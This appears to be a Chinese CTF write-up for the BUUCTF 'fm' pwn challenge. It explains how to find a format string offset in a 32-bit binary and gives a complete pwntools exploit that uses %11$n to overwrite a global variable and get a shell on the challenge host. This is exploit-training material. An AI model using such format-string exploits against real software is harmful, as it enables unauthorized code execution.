


题目链接
checksec 结果
1
2
3
4
5
|
Arch: i386-32-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x8048000)
|
IDA分析

IDA
很明显，存在格式化字符串漏洞。通过x==4的判断就能够拿到shell，那应该就是利用格式化字符串覆盖指定地址内容。
格式化字符串漏洞类型的pwn，核心就在于确定格式化字符串的偏移。因为一般来说在调用printf(buf)的时候，栈布局是这样的，所以我们得通过gdb调试等手段来判断格式化字符串的起始地址的偏移。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
|
....
low -----------------
-----------------
old ebp
-----------------stack of printf()
ret addr
---------------- ---------
arg1: addr of fmt_str |
----------------- |
offset
|
|
addr----------------- ---------
format string content
........
high-----------------
....
|
最常用的方法是输入aaaa/aaaaaaaa＋%p.%p.....，通过看0x61在哪开始出现来判断偏移。

当然，在调试的时候也能够通过计算得出偏移，如本题的偏移就为(0x9c-0x70)/4=11（因为是32位，字长位4字节）。

再结合IDA查找变量x的地址，就可以写exp了。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
|
from pwn import *
context.os = "linux"
context.arch = "i386"
# context.log_level = "debug"
if args.LOCAL:
p = process("./fm")
else:
p = remote("node4.buuoj.cn", 28965)
x_addr = 0x804a02c
format_str_offset = 11
payload = p32(x_addr)+b'%11$n'
p.sendline(payload)
p.interactive()
|
{kind=link}

{kind=link}